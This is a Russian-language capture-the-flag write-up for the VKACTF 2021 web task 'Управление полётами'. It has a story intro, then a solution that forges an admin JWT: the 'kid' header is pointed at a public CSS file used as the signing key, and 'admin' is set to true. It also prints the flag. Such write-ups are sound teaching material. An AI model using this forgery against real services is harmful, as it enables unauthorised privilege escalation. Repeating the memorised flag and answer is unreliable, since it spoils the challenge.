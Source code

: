 ## Управление полётами

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2021 | Управление полётами | Web | easy |

### Описание

> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> Радость быстро сменилась грустью, теперь стоял вопрос, как, не имея космического корабля, добраться до Плутона. Друг отца сразу смекнул из-за чего перемена настроения и проговорил: 
>
> — Ради такого человека, как твой отец, и стоит достать мой старенький космический корабль, топлива в нём хватит и на полёт до Плутона, и на полёт до дома. Только есть одна проблема, просто так с Марса нельзя улететь. Нужно специальное разрешение, а получить его очень трудно.
>
> — Но ведь как-то же можно подделать разрешение?
>
> — Не знаю, тебе нужно проникнуть к одному управляющему терминалу. Я тебя туда отведу и дам тебе ещё всю информацию по кораблю, всё, что вероятно может понадобиться. Старик привёл Алису к командному пункту неподалёку и помог ей пробраться незаметно к заветному терминалу. Теперь всё зависело от навыков Алисы. Перед ней предстала [панель управления](https://ship-control.vkactf.ru), особый доступ к которой разрешен только привилегированному пользователю. Действовать надо быстро, пока никто не пришёл.


### Постописание
> Войдя в терминал, Алисе ничего не мешало внести все данные для разрешения полёта. После она незаметно выбралась оттуда, и радостная помчалась к дому друга отца. Перед отлётом она поблагодарила его.

### Решение
![](images/main.jpg)

На сайте есть возможность создания аккаунта. Сеанс пользователя хранится в JWT токене. В профиле обычного пользователя скрыт некий токен доступа. Необходимо стать админом для просмотра скрытой информации

Заголовок JWT токена содержит путь до файла с секретным ключом:
```json
{"typ":"JWT","alg":"HS256","kid":"keys/secret.key"}
```
Тело токена содержит информацию о привилегированности пользователя:
```json
{"username":"alice","admin":false}
```
Используя эту информацию мы можем изменить в теле токена `false` на `true`:
```json
{"username":"alice","admin":true}
```
 а подписать его публичным файлом, например, файлом стилей либо изображением, указав соответствующий путь до файла в заголовке токена:
```json
{"typ":"JWT","alg":"HS256","kid":"static/css/terminal.min.css"}
```
Заходим в профиль и получаем флаг

**Флаг:**

> vka{51mpl3_xp47h_vuln3r4b1l17y}